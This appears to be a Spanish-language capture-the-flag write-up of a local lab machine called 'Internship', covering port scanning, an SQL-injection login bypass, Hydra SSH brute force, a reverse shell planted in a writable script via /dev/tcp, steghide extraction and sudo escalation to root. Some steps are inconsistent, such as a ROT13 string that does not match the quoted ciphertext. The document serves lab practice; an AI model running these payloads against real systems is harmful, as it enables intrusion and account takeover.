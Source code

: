 # 🧠 **Informe de Pentesting – Máquina: Internship**

### 💡 **Dificultad:** Fácil

![Despliegue](Imágenes/2025-05-19_20-20.png)

---

## 📝 **Descripción de la máquina**

*Internship* es una máquina de dificultad baja diseñada para simular un entorno realista de pasantes que han cometido errores comunes de seguridad, incluyendo malas configuraciones, contraseñas débiles, y almacenamiento inseguro de archivos. Ideal para practicar reconocimiento, inyección SQL, fuerza bruta y escalada de privilegios.

---

## 🎯 **Objetivo**

El objetivo es obtener acceso inicial al sistema, escalar privilegios hasta obtener acceso como `root`, y capturar la flag de cada usuario comprometido.

---

## ⚙️ **Despliegue de la máquina**

Se descomprime el archivo y se lanza el contenedor Docker con el script proporcionado:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Se verifica conectividad hacia la IP del contenedor con un `ping`:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP

![Puertos](Imágenes/Capturas_2.png)

Después, identificamos servicios y versiones:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento Web**

Accedemos a `http://172.17.0.3/` y encontramos una página de bienvenida:

![Pagina](Imágenes/Capturas_4.png)

En el código fuente descubrimos el dominio `gatekeeperhr.com`. Para acceder correctamente, lo añadimos al archivo de hosts:

```bash
sudo nano /etc/hosts
```

Agregamos:

```
172.17.0.3 gatekeeperhr.com
```
![Dominio](Imágenes/Capturas_5.png)

![Dominio](Imágenes/Capturas_6.png)
Esto nos da acceso a una pantalla de inicio de sesión:

![Registro](Imágenes/Capturas_8.png)

---

## 🧨 **Inyección SQL**

Probamos una inyección simple:

```
Usuario: ' OR 1=1-- -
Contraseña: (cualquier valor)
```

Esta inyección manipula la consulta SQL para que siempre devuelva verdadero, permitiendo el acceso sin credenciales válidas.

![Registro](Imágenes/Capturas_9.png)
![Registro](Imágenes/Capturas_10.png)

Desde la interfaz obtenemos posibles nombres de usuarios.

---

## 🔎 **Fuzzing y Análisis Web**

Fuzzing sobre el dominio revela múltiples rutas interesantes:

```
/about.html
/contact.html
/default
/spam
/includes
/lab
```

![Fuzzing](Imágenes/Capturas_11.png)

En `/spam`, se muestra una pantalla negra, pero el código fuente revela un mensaje cifrado con ROT13:

```
Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
```

Descifrado con:

```bash
echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```
La contraseña de uno de los pasantes es 'purpl3'
```

---

## 🛠️ **Ataque Fuerza Bruta (Hydra)**

Creamos un archivo `users.txt` con los nombres de los pasantes y realizamos fuerza bruta con Hydra:

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4
```

Se descubren credenciales válidas:

```
[22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
```

![Hydra](Imágenes/Capturas_12.png)

---

## 🧑‍💻 **Acceso SSH y Primer Flag**

Accedemos vía SSH:

```bash
ssh pedro@172.17.0.3
```

No tiene permisos `sudo`. Encontramos la flag `fl4g.txt` en su home. En `/opt` hay un script `log_cleaner.sh` editable por nosotros. Lo modificamos para lanzar una reverse shell:

```bash
nano log_cleaner.sh
```

Agregamos:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Escuchamos la conexión:

```bash
sudo nc -lvnp 443
```

![payload](Imágenes/Capturas_15.png)

---

## 🕵️‍♂️ **Análisis de Archivos Ocultos**

Desde la cuenta `valentina` encontramos la imagen `profile_picture.jpeg`, la copiamos a `/tmp` y damos permisos globales para su análisis:

```bash
cp ~/profile_picture.jpeg /tmp
chmod 777 profile_picture.jpeg
```

![Imagen](Imágenes/Capturas_13.png)

Desde nuestra máquina, la descargamos con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Usamos `steghide` para extraer archivos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Nos pide una contraseña, solo presionamos `Enter`. Se extrae `secret.txt`:

```bash
cat secret.txt
```

Contenido:

```
mag1ck
```

![Contraseña](Imágenes/Capturas_14.png)

---

## 🧗‍♂️ **Escalada de Privilegios**

Nos cambiamos a `valentina` con la contraseña `mag1ck`:

```bash
su valentina
```

Verificamos sus privilegios:

```bash
sudo -l
```

Salida:

```
(ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Esto permite escalar a root usando `vim`. Ejecutamos:

```bash
sudo su
```

¡Acceso root conseguido! 🚩

![rott](Imágenes/Capturas_16.png)

---

